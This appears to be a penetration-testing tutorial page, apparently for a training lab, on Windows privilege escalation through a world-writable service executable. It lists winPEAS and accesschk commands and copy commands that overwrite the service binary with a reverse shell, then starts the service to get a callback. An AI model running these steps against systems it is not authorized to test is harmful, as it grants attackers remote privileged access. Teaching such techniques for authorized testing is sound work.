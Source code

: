# Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (86).png>)

Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](<../../../../.gitbook/assets/image (91).png>)

Create a backup of the original service executable:

```
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

Copy the reverse shell executable to overwrite the service executable:

```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](<../../../../.gitbook/assets/image (96).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start filepermsvc
```

![](<../../../../.gitbook/assets/image (83).png>)

